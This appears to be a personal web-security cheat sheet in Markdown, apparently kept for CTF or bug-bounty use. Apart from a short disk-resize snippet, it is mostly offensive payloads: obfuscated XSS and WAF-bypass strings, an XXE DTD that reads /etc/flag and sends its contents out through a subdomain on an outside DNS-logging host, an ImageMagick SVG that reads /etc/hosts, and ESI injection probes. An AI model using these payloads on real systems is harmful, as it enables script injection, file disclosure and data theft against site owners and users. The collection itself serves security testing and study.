 ### Resize after adding some GBs in Vmware
```
sudo growpart /dev/vda 1
sudo resize2fs /dev/vda1   
```

## Web Applications Security
### XSS
Some helpful payloads caught in the wild
```html
<svG x=1 onload=(co\u006efirm)``//
<embed src=//14.rs>
<marquee loop=1 width=0 onfinish=confirm(1)>
<marquee/onstart=alert(1)>
<esi:include src="http://abcdef.burpcollaborator.net/" /><script>alert(1)</script>
<svg><a><rect width=100% height=100% /><animate attributeName=href to=javascript:alert(document.location)>
<svg><a><animate attributeName=href to=javascript:alert(document.location) /><text y=15>Click me!</text></a>
<svg><animate xlink:href=#xss attributeName=href alues="&#01;&#02;&#03;&#04;&#05;&#06;&#07;&#08;&#09;&#10;&#11;&#12;&#13;&#14;&#15;&#16;&#17;&#18;&#19;&#20;&#21;&#22;&#23;&#24;&#25;&#26;&#27;&#28;&#29;&#30;&#31;&#32;javascript:alert(1)" /><a id=xss><text x=20 y=20>XSS</text></a>
<details/open/ontoggle="self['wind'%2b'ow']['one'%2b'rror']=self['wind'%2b'ow']['ale'%2b'rt'];throw/**/self['doc'%2b'ument']['domain'];">
＜/script＞injected2＜script＞alert(1)//＜/script＞ # < vs ＜
```

### XXE  
#### Exfiltrate in subdomain name:  
dtd file without .dtd extension _(test.html)_:  
```xml
<!ENTITY % file SYSTEM "file:///etc/flag">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://%file;.b0f4f2d1d89d4ec413ad.d.zhack.ca'>">
%eval;
%exfiltrate;
```  
Injection:
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "file:///tmp/test.html"> %xxe;]>
```  
http://dnsbin.zhack.ca/  
### LFI
SVG LFI (ImageMagick):  
https://blog.bushwhackers.ru/googlectf-2019-gphotos-writeup/  
```
<?xml version="1.0" encoding="UTF-8"?>
<svg width="1200px" height="1200px">
  <image width="1200" height="1200" href="text:/etc/hosts" />
</svg>
```
### ESI 
*Edge Side Include Injection*    
WAF'alike bypass:
```html
<svg onload=alert``
```
```html
hello -> hello 
but
hello isn't modified 
you have ESI injection
```